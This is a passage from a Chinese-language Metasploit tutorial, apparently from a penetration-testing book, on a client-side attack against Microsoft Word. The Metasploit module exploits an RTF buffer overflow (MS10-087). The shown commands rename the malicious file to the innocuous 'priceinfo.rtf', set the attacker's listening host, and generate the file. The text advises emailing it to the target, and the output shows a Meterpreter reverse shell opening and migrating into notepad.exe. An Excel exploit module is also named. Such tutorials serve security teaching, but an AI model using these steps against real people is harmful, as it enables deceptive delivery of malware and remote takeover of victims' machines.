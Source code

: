 ```
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic 
```

该漏洞包含一个参数 `FILENAME`，其中包含有关要创建的恶意文件名的信息。默认值为 `msf.rtf`。让我们换个不那么可疑的名字。我们还将设置 `LHOST`的值，该值是攻击机器的 IP 地址。

```
msf exploit(ms10_087_rtf_pfragments_bof) > set FILENAME priceinfo.rtf
FILENAME => priceinfo.rtf
msf exploit(ms10_087_rtf_pfragments_bof) > set LHOST 192.168.56.101 
```

文件名已更改为 `priceinfo.rtf`，且 `LHOST`的值已设置为 `192.168.56.101`。所以我们现在都准备好执行漏洞模块了。

```
msf exploit(ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'priceinfo.rtf' file ...
[+] priceinfo.rtf stored at /root/.msf4/local/priceinfo.rtf 
```

Metasploit 为我们创建了一个恶意文件，我们必须使用该文件才能继续进行客户端攻击。该文件位于 `/root/.msf4/local/priceinfo.rtf`。现在，下一步是通过邮件或其他媒介将此文件发送给目标用户。一旦目标用户执行此恶意文件，我们将注意到它将作为 word 文档打开。执行几秒钟后，Microsoft Word 实例将挂起或崩溃，具体取决于系统。同时，恶意文件成功地执行了攻击，并提供了与目标的活动会话。为了使连接持久，该漏洞会将自身迁移到将在后台运行的其他进程。

```
Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:57031) at 2011-11-13 23:16:20 +0530
[*] Session ID 2 (192.168.56.101:4444 -> 192.168.56.1:57031) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: WINWORD.EXE (5820)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5556
[+] Successfully migrated to process 
```

命令行的前几行显示成功执行利用漏洞攻击，从而导致与 `SESSION ID = 2`的活动会话。命令行的最后一部分显示该漏洞已成功从 `WINWORD.EXE`迁移到 `notepad.exe`。

## 它是如何工作的。。。

利用漏洞模块只是创建一个恶意 word 文件，将非法值传递给 word 解析器。解析器无法识别非法值会导致其中的缓冲区溢出。然后有效负载开始工作，执行代码以建立与攻击机器的反向连接。此攻击的成功率因机器而异，因为**Windows ASLR（地址空间布局随机化）**可能会阻止执行任意代码（有效负载）。

## 还有更多。。。

Office 套件还有另一个流行的漏洞。我将把它作为一个教训留给你去实践它。在这里，我将简要概述一下。

### Microsoft Excel 2007 缓冲区溢出

此已知漏洞攻击的目标是 2007 版的 Microsoft Excel 工具（`.xlb`。恶意.xlb 文件的执行可能导致基于堆栈的缓冲区溢出并导致任意代码执行。该漏洞可位于 `exploit/windows/fileformat/ms11_021_xlb_bof`。
